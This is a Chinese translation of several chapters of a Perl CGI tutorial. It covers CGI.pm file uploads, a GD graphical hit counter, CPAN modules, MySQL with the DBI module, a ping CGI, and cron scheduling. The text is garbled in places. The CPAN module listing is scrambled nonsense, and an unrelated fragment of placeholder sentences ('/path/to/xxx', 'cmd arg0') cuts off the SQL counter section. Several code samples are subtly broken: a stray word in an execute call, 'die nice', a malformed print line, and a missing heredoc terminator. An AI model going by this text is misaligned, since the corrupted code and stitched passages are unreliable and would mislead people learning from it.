This form uploads a file from your machine to the server.
Enter the file name to upload: <p>
<input type="file" name="upfile" size=40><br>
<input type="submit" value="Upload File">
</form>
```

- 工作示例：`http://www.cgi101.com/class/ch17/upload.html`

现在，你使用 `CGI.pm` 来解码它。与之前一样，表单输入数据可以通过 `param` 函数获取：

```perl
$file = $q->param("upfile");
```

不过，这实际上可以有几种使用方式。首先，标量上下文中的 `$file` 是上传文件的名称。但它也是一个文件句柄，要检索并将文件保存到磁盘，你必须从文件句柄读取，如下所示：

```perl
$file = $q->param("upfile");
open(OUT,">outfile") or dienice("Can't open outfile: $!");
while (read($file,$i,1024)) {
    print OUT $i;
}
close OUT;
```

这以 1024 字节分段读取上传的数据。这可以处理任何类型的文件，包括 GIF 等二进制数据或系统特定的应用程序。

以下是解析上述表单的脚本的工作示例：

```perl
#!/usr/bin/perl
use CGI;

$q = new CGI;
```

```perl
print $q->header, $q->start_html("Upload Results");
print $q->h2("Upload Results");

$file = $q->param("upfile");
if (!$file) {
    print "Nothing uploaded?<p>\n";
} else {
    print "Filename: $file<br>\n";
    $ctype = $q->uploadInfo($file)->{'Content-Type'};
    print "MIME Type: $ctype<br>\n";
    open(OUT,">/tmp/outfile") or dienice("Can't open outfile for writing: $!");
    $flen = 0;
    while (read($file,$i,1024)) {
        print OUT $i;
        $flen = $flen + 1024;
        if ($flen > 5120000) {
            close(OUT);
            dienice("Error - file is too large. Save aborted.<p>");
        }
    }
    close(OUT);
    print "Length: ",$flen/1024,"Kb<p>\n";
    print "File saved!<p>\n";
}
$q->end_html;

sub dienice {
    my($msg) = @_;
    print "<h2>Error</h2>\n";
    print "$msg<p>\n";
    exit;
}
```

源代码：`http://www.cgi101.com/class/ch17/upload.txt`

这个示例对文件大小有 5MB 的限制；如果文件超过该大小，脚本将终止运行。（我们不希望有人尝试上传 10GB 的文件导致我们的磁盘崩溃。）此外，请注意我们将文件写入了一个特定的文件名（`"outfile"`），而不是用户提供的文件名。如果你计划使用用户提供的文件名作为磁盘上的文件名，你应该先对其进行“去污染”处理（参见第 16 章）。

`CGI.pm` 包含的功能比我们这里涵盖的要多得多。欲了解更多信息和示例，请参阅由 Lincoln Stein（`CGI.pm` 的创建者）编写的优秀书籍 *Official Guide to Programming with CGI.pm*。另外，请访问 `http://www.cgi101.com/modules/CGI.pm.html` 查看 `CGI.pm` 的完整在线文档。

## 使用模块：`GD.pm`——图形模块

`GD.pm` 可用于动态创建 GIF 图像。一个常见的用途是制作页面计数器。这是一个示例。首先，在你的 HTML 文档中，包含一个像这样的图像标签：

```html

```

这将调用 CGI，并期望返回一个真实的图像。CGI 可以做到这一点；生成图像的 CGI 与生成 HTML 的 CGI 之间唯一的区别是 `"Content-type"` 行。对于图像，你会打印 `"Content-type:image/gif\n\n"` 而不是 `text/html`。然而，这种方法的一个问题是浏览器倾向于缓存图像，因此如果访问者重新加载页面，计数器就不会被触发。我们的解决方案是像在第 9 章中那样使用 SSI，只不过它不再打印计数器的文本数字，而是显示一个 GIF。

在开始之前，你还需要下载一套计数器图形。访问 `http://www.counterart.com/` 可以找到大量的免费计数器集合。在本示例中，我们使用了 counterart 集合中的 `"katt064"`：




每个数字都是一张独立的图像。你可能想为计数器图像创建单独的目录；在本例中，我们直接将它们全部放入`img/`子目录中。

现在来看脚本。第一个是`count.cgi`。这仅仅是我们第 9 章中使用`count.cgi`的修改版本：

```perl
#!/usr/bin/perl
use GD;

open(IN,"counts");
$count = <IN>;        # 仅读取第一行。
close(IN);
$count = $count + 1;
open(OUT,">counts");
print OUT "$count\n";
close(OUT);
print "Content-type:text/html\n\n";
print "\n";
```

源代码：http://www.cgi101.com/class/ch17/count.txt

运行示例：http://www.cgi101.com/class/ch17/count.html

这里，我们没有将计数结果打印为文本数字，而是打印了一个图像标签，该标签会调用第二个脚本：`icount.cgi`。这个标签还将实际的计数器值作为查询字符串传递给`icount`脚本。我们将使用 GD 将这些 GIF “粘贴”在一起形成一张单一图像，然后将图像数据打印到标准输出：

```perl
#!/usr/bin/perl
use GD;

# 从查询字符串获取计数器值
$strct = $ENV{'QUERY_STRING'};
# 计算有多少位数字
$numdigits = length($strct);
# 将其拆分为单个数字的数组
@digary = split(//,$strct);

open(GIF,"img/0.gif");
# 读取 0 的图像，仅为了获取高度和宽度信息。
$tmp = newFromGif GD::Image(GIF);
close(GIF);
($width,$height) = $tmp->getBounds;

# 目前，猜测图像的总宽度。
$maxwidth = $width * ($#digary + 1);

# 创建一个临时图像用于存储计数器
$myimg = new GD::Image($maxwidth,$height);

# 实际宽度的计数器
$acwidth = 0;

# 现在用数字填充临时图像
foreach $i (@digary) {
    # 读取该数字的图像；
    open (GIF,"img/$i.gif");
    $tmp = newFromGif GD::Image(GIF);
    close GIF;

    # 获取其宽度/高度
    ($tmpx,$tmpy) = $tmp->getBounds;

    # 复制到临时计数器
    $myimg->copy($tmp,$acwidth,0,0,0,$tmpx,$tmpy);

    # 增加宽度
    $acwidth = $acwidth + $tmpx;
}

# 现在创建具有合适高度/宽度的最终计数器
$dimg = new GD::Image($acwidth,$height);

# 将临时计数器复制到最终图像
$dimg->copy($myimg,0,0,0,0,$acwidth,$height);

# 使最终图像交错扫描
$dimg->interlaced(1);

# 将其转换为 GIF
$gif_data = $dimg->gif;

# 现在将其打印输出
print "Content-type:image/gif\n\n";
print $gif_data;
```

源代码：http://www.cgi101.com/class/ch17/icount.txt

别忘了同时创建`counts`文件，并使用`chmod`将其设置为全局可写，以便你的计数器能够递增。

GD 还可以用于绘制新图像；它提供了许多函数用于创建、着色和填充几何形状、直线，甚至是单个像素。请访问 http://www.cgi101.com/modules/GD.pm.html 查看完整的在线文档。

## 在哪里寻找模块

你可以在 Perl 网站的`http://www.perl.com/perl.com/CPAN/CPAN/CPAN.html`找到详尽的 Perl 模块列表。CPAN（全称 "Comprehensive Perl Archive Network"）包含数百个可免费下载的 Perl 工具。可用模块的列表位于 CPAN.html 页面的底部，按字母顺序排列；（截至本文撰写时）列表看起来像这样：

```
Emacs/Emacs/Lepsum/enum/enum.Exy/Lex/Array.ERG/extensible_report_generator Errot/Erno Errot/Errot Event/Event
Event/EventStats Event/Events/Event.psyr Event/EventServer Event/EventServer Expect/Expectnpm ExtUtils/ExtUtils/DynGlue
ExtUtils/ExtUtils/Embed ExtUtils/ExtUtils/ExtUtils_X... ExtUtils/ExtUtils/ExtUtils/ExtUtils/ExtUtils/PerPP ExtUtils/ExtUtils/Home
ExtUtils/MakeMaker ExtUtils/mysql/Mysqlmodules.ext ExtUtils/PDL ExtUtils/ExtUtils/PGPLOT
```

从这里，你可以直接点击你感兴趣的模块名称。你将看到一个文件的目录列表。点击相关的 "readme" 文件以获取有关该模块的更多信息，或者下载`.tar.gz`文件进行下载。你需要通过 FTP 将该文件传回你的 Unix 服务器。

另一个用于浏览和搜索模块的优秀网站是`http://search.cpan.org/`。你可以通过关键字或模块名称进行搜索，查看模块文档，并从该网站下载模块。

下载模块后，你可以使用以下命令对其进行解压：

```
gzip -d modulename.tar.gz
tar -xvf modulename.tar
```

然后阅读 README 文件以获取安装模块的说明。通常只需要以下两行命令即可构建：

```
perl Makefile.PL
make
```

如果你是以模块根权限安装，还可以执行`make install`将其安装到`site_perl`目录中。如果不是，请将其安装在你的个人 Web 空间中的某个位置，并记得在脚本开始处使用`lib "/path/to/module"`。

你也可以要求你的系统管理员或 ISP 为你安装模块。

模块通常将其文档嵌入在`.pm`文件本身中，采用一种称为 POD ("plain old documentation") 的格式。POD 信息使用简单的标记语言编码，因此可以轻松提取并转换为其他格式（如 HTML、man、text 等）。要阅读 POD 文档，只需执行：

```
perldoc modulename
```

`perldoc`程序随 Perl 一起捆绑提供，它可以从任何模块中提取文档，将其转换为 man-page 格式，并分页显示文档。实质上，它的工作方式就像 Unix 中的`man`程序一样。

## 资源

- CPAN - http://www.perl.com/CPAN/
- Official Guide to Programming with CGI.pm，作者 Lincoln Stein
- Programming Perl，作者 Larry Wall, Tom Christiansen & Randal Schwartz
- GD 文档 - C 库：http://www.boutell.com/gd/ 和 GD.pm Perl 模块 - http://stein.cshl.org/WWW/software/GD/GD.html
- 计数器艺术博物馆 - http://www.counterart.com/

访问 http://www.cgi101.com/class/ch17/ 获取本章的源代码和链接。

# 18 数据库编程

将数据存储在平面文件中，在一定程度上是有用的。但当你的文件数据量开始增大，或者网站流量增加时，反复打开、读取和关闭磁盘文件就变得低效了。这时你就会想使用关系型数据库。这涉及一个数据库应用程序（服务器），你的脚本必须连接到该服务器。服务器可以存储许多独立的数据库，每个数据库包含自己的表，这些表才是真正存储数据的地方。表是通过一种称为“结构化查询语言”（SQL）的特定语法来查询的。

SQL 是与数据库通信的标准语法。虽然有许多不同类型的数据库服务器，但 SQL 是在关系型数据库中操作数据的通用语言。如果你是 SQL 新手，可能需要查阅一本 SQL 书籍来了解更多关于其语法的知识。

使用数据库有几个优点。你不必担心全局可写的文件，也不必执行文件 I/O（尽管你的脚本仍需打开与数据库服务器的连接）。而且它速度极快。使用 SQL，你可以从成千上万甚至数百万条记录中选取所需的数据，而无需将所有数据加载到脚本中再搜索。例如，如果你的表存储产品信息，且每个产品编号是唯一的，你可以这样查询特定产品的信息：

```sql
select * from product_db where item_number="4425A";
```

这比我们之前的方式快得多：

```perl
open(IN,"datafile");
@grok = <IN>;
close(IN);
foreach $i (@grok) {
    chomp($i);
    ($stocknum,$name,$status,$price) = split(/\|/,$i);
    if ($stocknum eq "4425A") {
        # do whatever
    }
}
```

用平面文件数据库做这件事可能需要很长时间，尤其是在数据量大的情况下。

## MySQL

有许多可用的数据库引擎——例如 Access、FoxPro、Informix、Ingres、MiniSQL、MySQL、Oracle 和 Sybase 等。大多数是商业软件。有些，如 MySQL，可以免费使用或只需支付少量许可费用。

MySQL 可以在 http://www.mysql.com/ 获取。提供适用于 Unix、OS/2、Windows 95/98 和 NT 的版本。

本章的示例将使用 MySQL。你需要确认系统上已安装 MySQL，或者自行安装（这需要 root 权限），或者注册一个提供 MySQL 数据库的账户。（我们在 cgi101.com 提供此服务。）

首先，让我们创建一个数据库和一个表。要使用 MySQL 创建新数据库，你需要使用`mysqladmin`命令。在 Unix shell 中，输入：

```sh
mysqladmin create products
```

（如果你的账户在 ISP 或其他共享系统上，并且你不是系统管理员，可能无法使用`mysqladmin`；如果遇到问题，请咨询你的系统管理员。）

现在，你想连接到 MySQL 服务器并创建一个表。同样在 Unix shell 中，只需输入：

```sh
mysql products
```

```text
% mysql products
Welcome to the MySQL monitor. Commands end with ; or \g.
Your MySQL connection id is 76 to server version: 3.22.16a-
gamma

Type 'help' for help.

mysql>
```

如果你看到类似以下内容：

```text
% mysql products
ERROR 1045: Access denied for user: 'test@localhost' (Using
password: NO)
```

这意味着服务器需要你提供密码。尝试输入`mysql -p products`，并在提示时输入密码。如果不知道密码，请咨询系统管理员。

现在，一旦进入 MySQL，你就可以创建表了。一个数据库可以包含多个表，每个表由一个或多个数据列组成。然后可以向表中输入单条记录（或数据行）。对于商店，你可能需要为商品、产品线、订单等创建表。以下是创建表的 MySQL 语法：

```sql
create table table_name (
    col_name col_type options,
    col_name col_type options,
    col_name col_type options,
    ...etc...
);
```

列名通常可以是任何名称，只要它是单个单词（名称中不能有空格），并且不是 MySQL 的保留关键字。MySQL 有很多种列类型；完整的列表可以在 http://www.tcx.se/Manual_chapter/manual_Reference.html#Column_types 找到，但这里列出一些常用类型。[方括号]中的内容是可选的：

| 类型 | 描述 |
|------|------|
| `INT[(M)] [UNSIGNED] [ZEROFILL]` | 范围在 -2147483648 到 2147483647 之间的整数。如果指定 "unsigned"，范围是 0 到 4294967295。如果指定 "zerofill"，数据将用零左对齐填充——例如，"int(4) zerofill" 会将数字 24 存储为 0024。 |
| `FLOAT(precision) [ZEROFILL]` | 浮点数（如 4.25）。精度可以是 4 或 8。FLOAT(4) 是单精度数，FLOAT(8) 是双精度数。 |
| `DATE` | 格式为 'YYYY-MM-DD' 的日期 |
| `DATETIME` | 格式为 'YYYY-MM-DD HH:MM:SS' 的日期和时间 |
| `CHAR(M) [BINARY]` | 长度为 M 个字符的字符串，最大长度为 255 个字符。默认情况下，CHAR 类型的列不区分大小写。如果指定 "binary"，字符串将区分大小写存储。 |
| `TEXT` | 最长 65535 个字符的文本块。 |

每个字段还可以指定许多选项：

- `NOT NULL`（或`NULL`）：确定是否可以存储空值。
- `DEFAULT default_value`：设置该字段的默认值。
- `AUTO_INCREMENT`：对于数字列，该列的值将比前一条记录的值大 1。
- `PRIMARY KEY`：指示此字段是主键。

表的主键是唯一标识一条记录的列——每个表只能有一个主键，因此每条记录在该列中都有唯一的值。例如，你可能希望库存编号（或 ISBN）作为产品数据库的主键，用户 ID 作为用户数据库的主键。

现在让我们创建一个名为`items`的表：

```sql
create table items(
    stocknum int not null primary key,
    name char(80) not null,
    status char(8) not null,
    price float not null);
```

现在你可以输入`show tables`来查看是否创建成功：

```text
mysql> show tables;
+-------------------+
| Tables in products |
| items |
+-------------------+
1 row in set (0.00 sec)
```

要向表中插入数据，你将使用`insert`命令：

```sql
insert into items values(331,"Rainbow Snowflake","IN",118.00);
insert into items values(311,"French Military Kite","IN",26.95);
insert into items values(312,"Classic Box Kite","LOW",19.95);
```

依此类推。请注意，字符类型列的数据必须用引号括起来，并且必须为表中的每一列输入数据。

继续输入第 7 章中使用的`data.db`文件中的所有数据。完成后，你可以使用`select`语句查看表：


`mysql> select * from items;`

```
+-------+------------------------+--------+-------+
|stocknum| name                  | status | price |
+-------+------------------------+--------+-------+
|   331 | Rainbow Snowflake      | IN     | 118.00|
|   311 | French Military Kite   | IN     | 26.95 |
|   312 | Classic Box Kite       | LOW    | 19.95 |
|   340 | 4-Cell Tetra           | IN     | 45.00 |
|   327 | 3-Cell Box             | OUT    | 29.95 |
|   872 | Classic Dragon         | IN     | 39.00 |
|  5506 | Harlequin Butterfly Kite| IN    | 39.00 |
|  3623 | Butterfly Delta        | IN     | 16.95 |
|   514 | Pocket Parafoil 2      | IN     | 19.95 |
|  7755 | Spitfire               | IN     | 45.00 |
+-------+------------------------+--------+-------+
10 rows in set (0.03 sec)
```

在这个例子中，你从表中的所有行中选择所有字段。`select` 语句中的 `*` 只表示“获取所有列”。如果你想只选择`name`和`price`列的数据，你需要在`select`中指定这些列名：

```
mysql> select name,price from items;
+----------------------+-------+
| name                 | price |
+----------------------+-------+
| Rainbow Snowflake    | 118.00 |
| French Military Kite | 26.95 |
| Classic Box Kite     | 19.95 |
| 4-Cell Tetra         | 45.00 |
| 3-Cell Box           | 29.95 |
| Classic Dragon       | 39.00 |
| Harlequin Butterfly Kite | 39.00 |
| Butterfly Delta      | 16.95 |
| Pocket Parafoil 2    | 19.95 |
| Spitfire             | 45.00 |
+----------------------+-------+
10 rows in set (0.06 sec)
```

你也可以在`select`语句中添加一个可选的`order by 列名`参数。例如，如果你想列出按价格排序的记录，可以这样做：

```
mysql> select name,price from items order by price;
+----------------------+-------+
| name                 | price |
+----------------------+-------+
| Butterfly Delta      | 16.95 |
| Classic Box Kite     | 19.95 |
| Pocket Parafoil 2    | 19.95 |
| French Military Kite | 26.95 |
| 3-Cell Box           | 29.95 |
| Classic Dragon       | 39.00 |
| Harlequin Butterfly Kite | 39.00 |
| 4-Cell Tetra         | 45.00 |
| Spitfire             | 45.00 |
| Rainbow Snowflake    | 118.00 |
+----------------------+-------+
10 rows in set (0.06 sec)
```

默认情况下，列表按升序排序。如果你想按降序显示字段，可以指定`order by 列名 desc`。其中`desc`代表降序。

你可以使用`select`语句中的`where`子句来选择特定的记录：

```
mysql> select * from items where stocknum=331;
+-----------+-------------------+--------+--------+
| stocknum  | name              | status | price  |
+-----------+-------------------+--------+--------+
|       331 | Rainbow Snowflake | IN     | 118.00 |
+-----------+-------------------+--------+--------+
1 row in set (0.00 sec)
```

你也可以使用`update`命令配合`where`子句来修改特定记录：

```
mysql> update items set price=120.00 where stocknum=331;
Query OK, 1 row affected (0.03 sec)
Rows matched: 1  Changed: 1  Warnings: 0
```

```
mysql> select * from items where stocknum=331;
+-----------+-------------------+--------+--------+
| stocknum  | name              | status | price  |
+-----------+-------------------+--------+--------+
|       331 | Rainbow Snowflake | IN     | 120.00 |
+-----------+-------------------+--------+--------+
1 row in set (0.00 sec)
```

类似地，如果你想删除一条记录，可以使用`delete`命令配合`where`子句：

```
mysql> delete from items where stocknum=331;
Query OK, 1 row affected (0.00 sec)
```

这四个命令——`select`、`insert`、`update`和`delete`——将是你在使用 SQL 数据库时的主要命令。关于这些命令以及其他 MySQL 命令的完整参考，请参阅手册：`http://www.tcx.se/Manual_chapter/manual_toc.html`。

要退出`mysql`并返回 Unix shell，只需输入`quit`。

## Perl DBI 模块

`DBI`模块是 Perl 的一个数据库独立接口。它允许你使用一套 Perl 函数来访问任何类型的数据库——Informix、MySQL、Oracle、Sybase 等等。`DBI`还允许你同时连接多个数据库，甚至可以同时连接不同类型的数据库服务器。`DBI`是免费的，并且被广泛认为是标准的 Perl 数据库接口。

`DBI`实际上由两部分组成：`DBI`模块本身，以及你正在使用的特定数据库的驱动程序。你的脚本很少——如果有的话——会直接与驱动程序打交道，只与`DBI`模块交互。

下面是一些`DBI`函数的介绍。首先，你需要像这样包含`DBI`模块：

```
use DBI;
```

接下来，你需要让脚本连接到数据库：

```
$dbh = DBI->connect($data_source, $username, $password);
```

“数据源”由驱动程序名称和数据库名称组成。例如：

```
dbi:DriverName:database_name
dbi:DriverName:database_name@hostname:port
dbi:DriverName:database=database_name;host=hostname;port=port
```

这种语法允许你在一台机器上编写连接到另一台机器上数据库的 CGI 程序（前提是该机器允许来自 CGI 机器的连接）。实际的连接语法因驱动程序而异；以上是 MySQL 驱动程序的示例。

这是一个实际的连接示例：

```
$dbh = DBI->connect("dbi:mysql:products", "webserver", "") or
dienice("Can't connect: $DBI::errstr");
```

在这个例子中，我们使用`dbi:mysql`作为驱动程序，`products`作为数据库。`webserver`是用户名，不需要密码。

现在你需要准备一个要执行的 SQL 查询，如下所示：

```
$sth = $dbh->prepare($statement);
```

下面是一个使用我们的风筝数据库的示例：

```
$sth = $dbh->prepare("select * from items order by price");
```

当然，我们还需要进行错误检查，可以使用以下方式显示数据库错误：

```
$dbh->errstr;
```

所以这是一个包含错误检查的更完整的 `prepare`示例：

```
$sth = $dbh->prepare("select name,price from items order by
price") or dienice("Can't prepare statement: ",$dbh->errstr);
```

现在要实际执行查询，你需要使用：

```
$rv = $sth->execute;
```

`$rv`是返回值；它是一个标量变量，存储选定或修改的行数。实际结果必须使用以下函数之一来访问：

```
@row_ary  = $sth->fetchrow_array;
$ary_ref   = $sth->fetchrow_arrayref;
$hash_ref = $sth->fetchrow_hashref;
```

使用哪个函数很大程度上取决于个人偏好。你可以将结果作为数据数组获取，如下所示：

```
while (($name,$price) = $sth->fetchrow_array) {
    print "$name - $price\n";
}
```

请注意，如果你使用`fetchrow_array`，等号左侧数组的长度必须等于选定的列数。在这个例子中，我们只从表中选择了`name`和`price`，但如果你做了`select * from items`，那么你需要使用以下方法之一指定所有列：

```
($stocknum,$name,$status,$price) = $sth->fetchrow_array
@res = $sth->fetchrow_array
```

另一个选择是将结果数据存储在哈希中。`DBI`并没有提供实际的`fetch-hash`函数；而是提供了`fetchrow_hashref`，它返回一个哈希引用。这是指向实际哈希的指针，因此你必须通过以下方式取消引用：

```
%hashname = %{$hashref}
```

这里有一个示例：

```
while ($h = $sth->fetchrow_hashref) {
    %item = %{$h};
    print "$item{name} - $item{price}\n";
}
```

这个例子实际上将哈希引用转换回一个名为`item`的哈希。或者，你可以直接使用哈希引用，通过使用`$hashref->{key}`而不是`$hash{key}`：

```
while ($h = $sth->fetchrow_hashref) {
    print "$h->{name} - $h->{price}\n";
}
```

现在，当你完成数据库操作后，你需要断开连接：

```
$dbh->disconnect;
```

这就是全部了！

让我们用一个完整的脚本来试试。这是我们的风筝目录脚本示例，这次使用`DBI`：

```
#!/usr/bin/perl
use DBI;

print "Content-type:text/html\n\n";

$dbh = DBI->connect( "products", "webserver", "", "mysql" ) or
die("Can't connect: ",$dbh->errstr);

print <<EndHdr;
<html><head><title>Kite Catalog</title></head>
<body>
<h2 align="CENTER">Kite Catalog</h2>

To order, enter the quantity in the input box next to the
item.<p>
<form action="order.cgi" method="POST">
EndHdr

$sth = $dbh->prepare(qq(select stocknum,name,price from items
where status != "OUT" order by stocknum)) or die("Can't
select from table: ",$dbh->errmsg);
$sth->execute;

# Now just fetch each row of data as an array:

while (($stocknum,$name,$price) = $sth->fetchrow_array) {
    print "<input type=\"text\" name=\"$stocknum\" size=5>"
    $name - $price<p>\n";
}

$dbh->disconnect;

print <<EndFoot;
<input type="submit" value="Order!">
<p>
</body>
</html>
EndFoot

sub dienice {
    my($msg) = @_;
    print "<h2>Error</h2>\n";
    print $msg;
    exit;
}
```

源代码：`http://www.cgi101.com/class/ch18/dbicat.txt`

工作示例：`http://www.cgi101.com/class/ch18/dbicat.cgi`

## 向表中插入数据

除了`prepare`/`execute`方法，你还可以使用`DBI`的`do`函数来查询数据库：

```
$rv = $dbh->do($statement);
```

这不能用于`select`查询，但可以用于`insert`/`update`/`delete`操作：

```
$rv = $dbh->do("delete from items where stocknum=331");
$rv = $dbh->do(qq{insert into items values(217,"Hawaiian Team Kite", "IN", 49.95)});
```

然而，如果你正在插入通过表单提交的数据，你应该使用`prepare`。`DBI`的`prepare`函数允许你在查询字符串中插入占位符：

```
insert into items values (?, ?, ?, ?)
```

这里的`?`是占位符。它们允许你在执行时替换为实际的值：

```
$sth->execute(217, "Hawaiian Team Kite", "IN", 49.95);
```

这里的一大优势是你只需要准备一次语句。你可以多次执行同一个预处理语句：

```
$sth = $dbh->prepare("insert into items values (?, ?, ?, ?)")
    or die nice($dbh->errstr);
$sth->execute(217, "Hawaiian Team Kite", "IN", 49.95 Representative)
    or die nice($dbh->errstr);
$sth->execute(218, "Dart", "IN", 39.95)
    or die nice($dbh->errstr);
$sth->execute(219, "Skydancer", "IN", 319.95)
    or die nice($dbh->errstr);
```

## SQL 页面计数器

这是一个使用数据库而非纯文本文件的计数器程序示例。首先，你需要为其创建表：

```
create table counts(
    pagename char(80) not null primary key,
    count int not null);
```

这个表可以保存你网站上任意数量页面的计数器：数据库中的每条记录将对应一个不同的页面。现在，计数器 CGI 只需要从数据库中读取并增加计数即可。


进入`/path/to/xxx`目录，找到`xxx.json`。

在表达式`cvar = avar + bvar`中，加法运算符（`+`）将`avar`与`bvar`相加，得到它们的和`cvar`。

在`List.of(arg0, arg1, arg2)`中，`List`接口的工厂方法`of()`接受一系列的元素，返回包含它们的只读列表。

之后我们这样调用`cmd`命令：`cmd arg0 arg1 arg2`。

```
if (condVar > someVal) {console.log("xxx")}
```


这是一个更复杂的 CGI 与 shell 程序交互的示例。`ping` 程序向远程主机发送数据包，然后远程主机返回这些数据包。`ping` 随后显示两个主机之间的往返时间。这通常用于判断主机是否宕机或是否存在网络问题。你可以自己在 Unix shell 中尝试：

```
% ping www.io.com
PING www.io.com (199.170.88.39): 56 data bytes
64 bytes from 199.170.88.39: icmp_seq=0 ttl=58 time=60.4 ms
64 bytes from 199.170.88.39: icmp_seq=1 ttl=58 time=22.2 ms
64 bytes from 199.170.88.39: icmp_seq=2 ttl=58 time=18.9 ms
64 bytes from 199.170.88.39: icmp_seq=3 ttl=58 time=23.0 ms
64 bytes from 199.170.88.39: icmp_seq=4 ttl=58 time=14.1 ms
64 bytes from 199.170.88.39: icmp_seq=5 ttl=58 time=21.6 ms

--- www.io.com ping statistics ---
7 packets transmitted, 6 packets received, 14% packet loss
round-trip min/avg/max = 14.1/26.7/60.4 ms
```

`ping` 每秒发送一个数据包。如果你通过 shell 交互式地运行它，你必须按下 `Ctrl-C` 来结束 `ping`，或者你可以使用 `-c` 标志指定 `ping` 的次数：

```
ping -c 15 www.io.com
```

这个示例将向远程主机发送 15 个数据包。

由于 `ping` 涉及时间延迟，如果你使用反引号方法对其进行编码（就像我们处理 `whois` 和 `who` CGI 那样），在 `ping` 完成之前屏幕上不会显示任何内容——至少要等待 15 秒。这是因为 Perl 缓冲了输出，在写入目标文件或输出通道之前将输出保存到缓冲区中。对于普通程序，缓冲可以使你的脚本运行得更快，因为 Perl 不需要每次在执行 `print` 或 `read` 时都进行低级别的系统调用来读写文件等。但对于我们的 `ping` 程序，我们希望在每一行出现时立即看到它。因此，要关闭缓冲，请在脚本顶部添加这一行：

```
$|=1;
```

`$|` 是一个特殊的 Perl 变量，指的是当前的文件句柄（在本例中为 `STDOUT`）。如果 `$|` 设置为 0（默认值），则输出到该文件句柄的内容将被缓冲。因此，我们将其显式设置为 1 以关闭缓冲，并强制每次 `print` 后刷新输出。

现在，根据你的 Web 服务器的不同，这可能是你唯一需要更改的内容——但对于旧版本的 Apache Web 服务器（1.3 之前）和某些其他服务器，你还必须将脚本重命名为 `nph-ping.cgi`。“nph-”前缀（代表“Non-parsed Headers”）告诉服务器也不要缓冲输出。

这是一个关闭缓冲的 `ping` CGI 示例：

```
#!/usr/bin/perl

$|=1;

print "Content-type:text/html\n\n";
$dest = "www.io.com";

print <<EndHTML;
<html><head><title>Ping $dest</title></head>
<body>
<h2>Ping $dest</h2>
<hr>
<pre>
EndHTML

system("ping","-c", "15", $dest);

print <<EndHTML2;
</pre>
<hr>
</body>
</html>
```

源代码：http://www.cgi101.com/class/ch20/ping.txt

运行示例：http://www.cgi101.com/class/ch20/ping.cgi

在上面的示例中，我们使用了 `system` 来调用 `ping` 命令；由于输出是非缓冲的，`system` 调用的结果将直接显示在网页上。

## 使用 cron 调度脚本

Perl 的用途远不止于 CGI：它还可以非常成功地用于处理站点维护、日志文件分析和每日报告等。其中许多任务必须调度在一天中的某个特定时间运行。Unix 通过使用 `cron` 程序提供了这种调度控制。

`cron` 是一个在指定日期和时间执行命令的调度程序。Unix 服务器每分钟运行一次 `cron` 守护进程（一个服务器程序），并执行每个用户 `crontab` 中指定的命令。`crontab` 是一个配置文件，规定了哪些命令应在什么时间运行。你可以通过以下命令在 Unix shell 中访问和编辑你的 `crontab`：

```
crontab -l    lists your current crontab
crontab -r    removes your crontab
crontab -e    edits your current crontab
crontab [file] replaces your crontab with the named [file]
```

请注意，`cron` 可能仅限 root 用户使用，因此你可能需要请求系统管理员将你添加到允许使用 `cron` 的用户列表中。

你的 `crontab` 的每一行包含六个字段，由空格或制表符分隔。字段如下：

- 分钟（0-59）
- 小时（0-23）
- 一个月中的日期（1-31）
- 一年中的月份（1-12）
- 一周中的日期（0-6，0=星期日，或缩写 "mon", "tue" 等）
- 命令路径

前五个字段也可以包含星号（`*`），表示所有合法值，或者由逗号分隔的元素列表。元素可以是数字，或者是两个由连字符分隔的数字（表示一个范围）。以下是一些示例：

```
# MIN HOUR DAY MONTH DAYOFWEEK COMMAND
# 以 # 开头的行是注释。如果你开始编写
# 非常长的 crontab，最好给它们写注释，以便
# 你知道它们在做什么。
```

```
0 * * * * /home/kira/crons/cmd1.pl
# 此脚本每小时运行一次（在每小时的第0分钟）。
```

```
0,30 * * * * /home/kira/crons/cmd2.pl
# 此脚本在每小时的第0分钟和第30分钟运行。
```

```
0-10 * * * * /home/kira/crons/cmd3.pl
# 此脚本在每小时的第0分钟到第10分钟之间，每分钟运行一次。
```

```
0 4 * * * /home/kira/crons/cmd4.pl
# 此脚本在每天凌晨4点运行。
```

```
0 0 * * fri /home/kira/crons/cmd5.pl
# 此脚本在每周五的午夜（00:00）运行。
```

```
59 23 30 4,6,9,11 * /usr/local/apache/bin/newweblogs.pl
# 此脚本在4月、6月、9月和11月（这些月份只有30天）的30号晚上23:59运行。
# 用于轮转日志文件！
```

```
59 23 28 2 * /usr/local/apache/bin/newweblogs.pl
# 如上所述，但运行时间为2月28日晚上23:59。
```

```
59 23 31 1,3,5,7,8,10,12 * /usr/local/apache/bin/newweblogs.pl
# 如上所述，但运行时间为所有其他月份（有31天的月份）的31日晚上23:59。
```

```
30 6-20 * * * /home/kira/crons/cmd6.pl
# 每天在6:30到20:30之间，于每小时的第30分钟运行。
```

当你首次编辑你的 `crontab`（使用 `crontab -e`）时，会看到一个空白文件。根据上述格式添加行，保存文件，你的程序就会被自动安排在指定时间运行。

你可以使用 `cron` 来安排 Unix shell 命令、shell 脚本，或者任何你通常从 Unix 命令行运行的程序。任何由定时任务生成的打印输出都会通过电子邮件发送给你。以下是在 `cron` 中实现一个提醒程序的简单方法：

```
50 19 * * wed echo "Voyager - 8pm" | mail -s "vger" kira
# 提醒我观看《航海家号》！
```

这会在每周三的 19:50（晚上 7:50）发送一封简短的邮件。它将 `echo` 命令的输出通过管道传递给 `mail` 程序，一个命令行邮件工具。

## 资源

- 《深受缓冲之苦》，作者 Mark-Jason Dominus，*The Perl Journal*，第 11 期（1998 年秋季）
- Apache 1.2 FAQ - nph 脚本。http://www.apache.org/docs-1.2/misc/FAQ.html#nph-scripts
- `cron` 和 `crontab` 手册页
- *A Practical Guide to the Unix System*，作者 Mark G. Sobell
- 访问 http://www.cgi101.com/class/ch20/ 获取本章的源代码和链接。

# 结论

恭喜你，你已经完成了这门课程！你现在应该对 CGI 有了相当好的理解，并能够编写一系列有用的 CGI 程序，无论是用于你自己的网站还是其他人的。

我强烈推荐你拿一本 *Perl 5 Pocket Reference*，由 Johan Vromans 编写，O'Reilly 出版社出版。这本小巧的手册是 Perl 核心功能的绝佳参考，仅包含 68 页。

如果你计划进行更深入的 Perl 编程，或者只是想扩展你对该语言的了解，你还会需要 *Programming Perl*，由 Larry Wall、Tom Christiansen 和 Randal L. Schwartz 编写。这是 Perl 语言的官方“圣经”：它是一本无价的参考书，如果你计划使用 Perl 进行更高级的编程，它确实是必备的。它涵盖了语言的所有方面——函数、语法、正则表达式、标准模块等等。

